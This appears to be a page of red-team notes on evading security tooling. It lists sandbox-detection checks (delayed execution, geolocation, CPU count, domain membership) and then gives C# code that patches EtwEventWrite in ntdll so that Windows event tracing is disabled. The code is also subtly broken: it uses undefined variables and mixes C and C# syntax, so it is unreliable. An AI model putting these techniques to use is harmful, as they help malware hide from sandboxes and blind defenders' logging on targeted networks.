 There are a few ways to determine if your application is running in a sandbox. 
1. Sleep Check
	- Wait out the sandbox execution. If the sandbox does not determine anything malicious about the binary in the first two minutes it may determine the binary is safe to run. 
2. Geolocation Check
	- If the binary is running in a location it was not meant for, it is likely running in a sandbox. This especially applies to when you find out it is running in California or similar. 
3. System Information Check
	- Sandbox environments are resource-constrained. If the machine you are running in has only one CPU, it is highly likely it is running in a sandbox. The sandbox likely does not have the user accounts you are targeting. A sandbox will not match your target system. Use this to your advantage. 
4. Network Information Check
	- A sandbox is likely not joined to the same domain you are targeting. A sandbox likely does not have the same group of Domain Administrators as your target machine. 

# Logging
Evading logging solutions is much harder than evading EDR/XDR detection generally. However, it takes an analyst to find what a computer could not. Example of logging solutions include [[syslog]] and [[ETW]], while these logs can be immediately transferred elsewhere using enterprise collection software like [[Splunk]] or [[Elastic Stack]].

ETW will be our main enemy in this section.

ETW is split into Controllers, Providers, and Consumers. 
- Controllers - Build and configure event tracing sessions.
- Providers - Generate events to these sessions.
- Consumers - Interpret the events they are receiving. 

Patching ETW on-the-fly can be accomplished to avoid detection. By replacing the call to `EtwEventWrite` at its base address with a `ret 14h` we can totally negate the function call altogether. The necessary code can be found below. 

```c#
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");

uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);

patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);

VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);

Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```
